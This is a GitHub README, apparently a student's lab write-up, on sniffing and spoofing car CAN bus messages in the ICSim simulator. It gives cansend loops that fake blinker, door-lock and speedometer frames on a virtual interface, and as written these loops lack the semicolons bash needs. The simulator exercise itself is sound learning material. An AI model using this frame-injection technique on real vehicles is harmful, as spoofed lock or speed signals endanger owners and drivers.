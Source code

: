 # Car_CAN-Hacking
!!! DISLAIMER - THIS PROJECT IS NOT INTENDED TO BE USED IN A BAD WAY AND IS INTENDED ONLY FOR EDUCATIONAL PURPOSES I NEITHER CONDONE NOR TAKE RESPONSIBILITY FOR SOMEONE
ELSE'S ACTIONS !!!

PREVIEW - ICSim is a simulator of how an actual car computer would work with visuals of a speedometer, blinkers and locked/unlocked doors, which is later on in the
file said as a dashboard

!!! Every command is done in a terminal and would probably need sudo privileges - sudo su !!!

1. Install ICSim

  [Clones the ICSim directory from github into an ICSim directory on your machine]
  - git clone https://github.com/zombieCraig/ICSim
  
2. Setup ICSim 

  [Changes the active directory of the terminal to ICSim's directory]
  - cd ICSim 
  
  [Runs the ICSim setup file]
  - ./setup_vcan.sh
  
3. Run ICSim
  
  [Runs the visual represantation of a car's dashboard with the interface for CAN communacation - vcan0]
  - ./icsim vcan0 (done in one terminal)
  
  [Runs the controls window which would need to be active(selected) in order to control the car using the same interface - vcan0]
  - ./controls vcan0 (done in a second terminal)
  
4. Run cansniffer
  
  [cansniffer is a tool used to sniff CAN packets]
  
  [Runs the cansniffer using the -c tag to helf identify changing data and using the same interface - vcan0]
  - cansniffer –c vcan0 (done in a third terminal)
  
5. Play around with the controls and try to spot what action corresponds to what ID in the cansniffer and how the data changes

6. I see that ID 188 corresponds to the blinkers with left blinker having the data - #010000 and the right blinker having the data - #020000
   	Write a bash script in the linux cmd to make hazard lights (couldn't manage to take a screenshot with both lights on) -
  
		while true do cansend vcan0 188#010000 cansend vcan0 188#020000 done
    
![314419579_1745801909127820_5795919229665972963_n](https://user-images.githubusercontent.com/109030111/201494211-9c4eac66-79f8-4b52-9c28-1ae59e2c5f35.png)

7. I see that ID 19B corresponds to the doors with open doors having the data - #000000 and closed door having the data - #00000F 
   	Write a bash script in the linux cmd to lock and unlock the doors  
   
		while true do cansend vcan0 19B#00000F cansend vcan0 19B#000000 done
		
![314437872_661565698651571_7419970977940910151_n](https://user-images.githubusercontent.com/109030111/201494544-220d8860-2044-41ca-8fd4-f79a956f5180.png)

8. And finally I see that ID 244 corresponds to the speedometer with the speed of 95 having the data - #0000003894
	Write a bash script in the linux cmd to keep the speed at 95 

		while true do cansend vcan0 244#0000003894 done
   
![314445943_1172877640014528_1613940322642097491_n](https://user-images.githubusercontent.com/109030111/201494627-95e13746-8fce-4d2b-b71f-b69beede9c0a.png)

That pretty much wraps up my little CAN-sniffing adventure thank you for reading it and I hope you find it helpful!
By nodlezgucci!
